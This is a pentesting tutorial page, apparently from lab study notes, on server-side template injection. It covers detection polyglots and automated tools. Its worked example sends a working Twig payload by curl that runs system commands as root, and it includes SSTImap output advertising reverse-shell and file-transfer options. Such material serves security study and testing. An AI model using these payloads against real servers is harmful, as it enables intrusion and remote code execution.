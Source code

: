 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSTI

## Information

**Server-Side Template Injection (SSTI)** occurs when an attacker injects code native to the template engine into a web page, which the template engine then executes, granting the attacker code execution on the server.

> _**Template Engines** are used to display dynamically generated content on a web page. They replace the variables inside a template file with actual values and display these values to the client._&#x20;

## Identification

### Manual

Using polyglots to induce errors:

* The error polyglot produces an error message to 44 template engines. However, errors might be caught by the application.
* The non-error polyglots are constructed in such a way that at least one of them does not throw an error, but renders the polyglot modified for all template engines we examined.

```bash
# The error polyglot
<%'${{/#{@}}%>{{
# Non-error polyglots
">[[${{1}}]]
<%=1%>@*#{1}
{##}/*{{.}}*/
```

```
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

<figure><img src="../../.gitbook/assets/ssti_portswigger_diagram.png" alt=""><figcaption><p>Figure 1: Identifying template engines (<em>image taken from</em> <a href="https://portswigger.net/web-security/server-side-template-injection"><em>here</em></a>).</p></figcaption></figure>

### Automatic

Tools like [TInjA](https://github.com/Hackmanit/TInjA), [SSTImap](https://github.com/vladko312/sstimap), and [j2ee-scan](https://github.com/PortSwigger/j2ee-scan) (Burp Pro) can automatically test for SSTI flaws by injecting combinations of special characters in template expressions (`${{<%[%'"}}%\`). Vulnerability indicators include:

* Thrown errors, revealing the vulnerability and potentially the template engine.
* Absence of the payload in the reflection, or parts of it missing, implying the server processes it differently than regular data.
* **Plaintext Context**: Distinguish from XSS by checking if the server evaluates template expressions.
* **Code Context**: Confirm vulnerability by altering input parameters. For instance, changing `greeting` in `http://vulnerable-website.com/?greeting=data.username` to see if the server's output is dynamic or fixed, like in `greeting=data.username}}hello` returning the username.

## Example

<figure><img src="../../.gitbook/assets/ssti_twig.png" alt=""><figcaption><p>Figure 2: Trying different SSTI payloads.</p></figcaption></figure>

Based on Figure 1 & 2, we are dealing with either a Twig or Jinja2 template engine. Trying engine-specific payloads, reveals that the former is used (Figure 3).

<figure><img src="../../.gitbook/assets/ssti_twig_payload.png" alt=""><figcaption><p>Figure 3: Trying a Twig-specific payload.</p></figcaption></figure>

The `_self` variable of Twig can be leveraged to execute a user-defined function and obtain RCE.

{% code overflow="wrap" %}
```bash
$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<SNIP>
<a>
    Who are you?
    <form method='post' action=''>
        <div class="form-group"> 
            <input placeholder="Name" name="name" size=70></input> <button class="btn btn-default" type="submit" name='submit'>Send</button>
       </div> 
    </form>
Hello uid=0(root) gid=0(root) groups=0(root)
Linux serversideattackssstitwig-60784-78bd58b5b-pmvvv 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
serversideattackssstitwig-60784-78bd58b5b-pmvvv
serversideattackssstitwig-60784-78bd58b5b-pmvvv!</a>
<SNIP>
```
{% endcode %}

The above process could be automated using `sstimap`.

```bash
$ ./sstimap.py -u "http://94.237.61.26:36373/" -d name=test

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4

[*] Scanning url: http://94.237.61.26:36373/
[*] Testing if Body parameter 'name' is injectable
<SNIP>
[*] Twig plugin is testing rendering with tag '*'
[*] Twig plugin is testing }}*{{1 code context escape with 6 variations
[*] Twig plugin is testing  %}* code context escape with 6 variations
[*] Twig plugin is testing blind injection
[*] Twig plugin is testing }}*{{1 code context escape with 6 variations
[*] Twig plugin is testing  %}* code context escape with 6 variations
[*] Twig_v1 plugin is testing rendering with tag '*'
[+] Twig_v1 plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: name
  Engine: Twig_v1
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --os-shell                   Prompt for an interactive operating system shell
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port
    --reverse-shell HOST PORT    Send a shell back to the attacker's port
    --upload LOCAL REMOTE        Upload files to the server
    --download REMOTE LOCAL      Download remote files
```

## Resources

{% tabs %}
{% tab title="Theory" %}
{% embed url="https://hackmanit.de/en/blog-en/178-template-injection-vulnerabilities-understand-detect-identify" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
{% endtab %}

{% tab title="SSTI Table" %}
{% embed url="https://cheatsheet.hackmanit.de/template-injection-table/" %}
{% endtab %}
{% endtabs %}
